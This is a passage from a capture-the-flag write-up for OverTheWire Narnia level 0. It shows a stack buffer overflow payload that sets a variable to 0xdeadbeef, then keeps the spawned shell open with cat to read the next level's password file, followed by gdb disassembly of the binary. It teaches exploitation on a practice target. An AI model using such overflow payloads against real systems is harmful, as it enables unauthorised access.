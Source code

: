 ```sh
WAY OFF!!!!

narnia0@melinda:/narnia$ (python -c 'print "B"*24') | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBBBBB
val: 0x42424242
WAY OFF!!!!
```

### Step 3: Crafting the Exploit

Now we know that `val` starts to overflow in the 20th byte. All we need to do is to add ```deadbeef``` in the last four bytes.

However, we need to write this in hexadecimal form:

```sh
narnia0@melinda:/narnia$ python -c'print "A"*20 + "\xef\xbe\xad\xde"'
AAAAAAAAAAAAAAAAAAAAﾭ
narnia0@melinda:/narnia$ (python -c'print "A"*20 + "\xef\xbe\xad\xde"') | ./narnia0 Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
```

Yay, the exploit worked!


### Step 4: Getting Access to the Shell


We  were able to get access to our shell, but it closed too fast, when the program execution ended.

We need to create a way to read the password before we loose the  control to the shell. A good way is pipelining some command that  waits for an input, such as ```tail``` or ```cat```.

It turns out that only ```cat``` actually prints the output:

```sh
narnia0@melinda:/narnia$ (python -c'print "A"*20 + "\xef\xbe\xad\xde"'; cat) | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
cat /etc/narnia_pass/narnia1
```
Done! We have completed the 0th level!


### Step 5: Debugging it!
Although this problem was easy enough so we didn't need to debug anything, it's a good call to understand the process while the challenge is easy:

```sh
narnia0@melinda:/narnia$ gdb ./narnia0
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x080484c4 <+0>: push   ebp
   0x080484c5 <+1>: mov    ebp,esp
   0x080484c7 <+3>: and    esp,0xfffffff0
   0x080484ca <+6>: sub    esp,0x30
   0x080484cd <+9>: mov    DWORD PTR [esp+0x2c],0x41414141
   0x080484d5 <+17>:  mov    DWORD PTR [esp],0x8048640
   0x080484dc <+24>:  call   0x80483b0 <puts@plt>
   0x080484e1 <+29>:  mov    eax,0x8048673
   0x080484e6 <+34>:  mov    DWORD PTR [esp],eax
   0x080484e9 <+37>:  call   0x80483a0 <printf@plt>
   0x080484ee <+42>:  mov    eax,0x8048689
   0x080484f3 <+47>:  lea    edx,[esp+0x18]
```

[inputs with no bounds checking]: http://en.wikipedia.org/wiki/Bounds_checking
[buffer overflow]: http://en.wikipedia.org/wiki/Buffer_overflow
[process's virtual memory]: http://en.wikipedia.org/wiki/Virtual_memory
[physical memory]: http://en.wikipedia.org/wiki/Computer_memory
[virtual memory space]: http://en.wikipedia.org/wiki/Virtual_memory
[direction of which the Stack grows]: https://stackoverflow.com/questions/664744/what-is-the-direction-of-stack-growth-in-most-modern-systems
[segmentation violation]: http://en.wikipedia.org/wiki/Segmentation_fault
[Heap]: http://en.wikipedia.org/wiki/Heap_(data_structure)
[Python & Algorithms]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/blob/master/book/book_second_edition.pdf
[here are some examples]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/tree/master/src/abstract_structures/Stacks
[WarGames]: http://overthewire.org/wargames
[Narnia]: http://overthewire.org/wargames/narnia
[Aleph One]: http://en.wikipedia.org/wiki/Elias_Levy
[Phrack magazine]: http://www.phrack.org/
[Smashing the Stack for Fun or Profit]: http://insecure.org/stf/smashStack.html
[Peter Jay Salzman]: http://www.dirac.org/linux/gdb/
[this cheat sheet]: http://darkdust.net/files/GDB%20Cheat%20Sheet.pdf
[nice Assembly guide]: http://www.drpaulcarter.com/pcasm/
[run a binary and read its C code]: http://www.thegeekstuff.com/2011/10/c-program-to-an-executable/
[little-endian]: http://en.wikipedia.org/wiki/Endianness
[x86]: http://en.wikipedia.org/wiki/X86
[ASCII]: http://en.wikipedia.org/wiki/ASCII
[hexadecimal representation]: http://en.wikipedia.org/wiki/Hexadecimal
[Shellshock guide]: http://bt3gl.github.io/understanding-the-shellshock-vulnerability.html
[very introductory guide]: http://www.thegeekstuff.com/2010/03/debug-c-program-using-gdb/
[comprehensive guide]: http://www.dirac.org/linux/gdb/
[0xdeadbeef]: http://en.wikipedia.org/wiki/Hexspeak
[Appendix A]: http://insecure.org/stf/smashStack.html
[/dev/null]: http://en.wikipedia.org/wiki/Null_device
[ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[NOPs]: http://en.wikipedia.org/wiki/NOP
